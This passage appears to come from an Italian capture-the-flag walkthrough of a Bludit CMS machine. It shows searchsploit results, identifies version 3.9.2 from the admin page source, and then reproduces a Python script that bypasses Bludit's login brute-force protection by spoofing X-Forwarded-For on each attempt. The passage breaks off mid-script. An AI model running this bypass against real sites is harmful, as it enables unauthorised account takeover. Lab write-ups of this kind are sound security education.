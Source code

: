 ```bash
Bludit 3.9.2 - Directory Traversal| multiple/webapps/48701.txt
Bludit 4.0.0-rc-2 - Account takeover | php/webapps/51360.txt
Bludit < 3.13.1 Backup Plugin - Arbitrary File Download (Authenticated)| php/webapps/51541.py
Bludit CMS v3.14.1 - Stored Cross-Site Scripting (XSS) (Authenticated)| php/webapps/51476.txt
bludit Pages Editor 3.0.0 - Arbitrary File Upload | php/webapps/46060.txt
---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
Papers: No Results
```

Dobbiamo scoprire la versione di Bludit eseguita per vedere se riusciamo a sfruttare qualche vulnerabiltà.

Analizzando il codice sorgente di /admin troviamo la versione 
```java
<!-- Javascript -->
	<script src="http://10.10.10.191/bl-kernel/js/jquery.min.js?version=3.9.2"></script>
<script src="http://10.10.10.191/bl-kernel/js/bootstrap.bundle.min.js?version=3.9.2"></script>
```

Dopo diversi tentativi nessuna delle soluzioni fornite da searchsploit sembra funzionare.
ma cercando in rete troviamo questo [articolo](https://rastating.github.io/bludit-brute-force-mitigation-bypass/) dove si parla di Bludit Brute Force Mitigation Bypass

```python
#!/usr/bin/env python3
import re
import requests

host = 'http://192.168.194.146/bludit'
login_url = host + '/admin/login'
username = 'admin'
wordlist = []

# Generate 50 incorrect passwords
for i in range(50):
    wordlist.append('Password{i}'.format(i = i))

# Add the correct password to the end of the list
wordlist.append('adminadmin')

for password in wordlist:
    session = requests.Session()
    login_page = session.get(login_url)
    csrf_token = re.search('input.+?name="tokenCSRF".+?value="(.+?)"', login_page.text).group(1)

    print('[*] Trying: {p}'.format(p = password))

    headers = {
        'X-Forwarded-For': password,
        'User-Agent': 'Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/77.0.3865.90 Safari/537.36',
        'Referer': login_url
    }

    data = {
        'tokenCSRF': csrf_token,
        'username': username,
        'password': password,
        'save': ''
    }

    login_result = session.post(login_url, headers = headers, data = data, allow_redirects = False)
```